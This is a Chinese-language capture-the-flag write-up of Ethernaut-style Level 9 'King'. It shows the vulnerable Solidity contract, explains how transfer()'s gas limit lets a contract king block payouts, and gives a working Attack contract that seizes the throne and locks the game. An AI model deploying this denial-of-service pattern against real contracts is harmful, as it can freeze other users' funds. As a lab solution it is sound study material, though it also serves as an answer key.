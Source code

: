 #   Level 9 King
實例地址：`0x5526fc65B5F5b2269171E8d58A609788c4C955Eb`

##  題目說明
下面的合約是一個很簡單的遊戲：任何發送了高於目前獎品 ether 數量的人將成為新的國王。在這個遊戲中，新的獎拼會支付給被推翻的國王，在這過程中就可以賺到一點 ether。看起來是不是有點像龐氏騙局 (*´∀`)~♥ 這麽好玩的遊戲，你的目標就是攻破它。 當你提交實例給關卡時，關卡會重新申明他的王位所有權。如果要通過這一關，你必須要阻止它重獲王位才行 (ﾒﾟДﾟ)ﾒ

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

##  POC
該合約的問題出現在 `receive()` 函式中，因為它使用 `transfer()` 將 ETH 轉給前一位 king。然而，`transfer()` 內建 2300 gas 限制，當 king 是合約且其 `receive()` 函式執行超過 2300 gas 時，交易將因 Gas 耗盡 (Out of Gas) 而失敗，導致 king 無法變更，進而鎖死遊戲。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address payable public target;

    constructor(address payable _target) payable{
        target = _target;
        target.call{value:msg.value}("");
    }

    
    receive() external payable{
        target.call{value:msg.value}("");
    }
}
```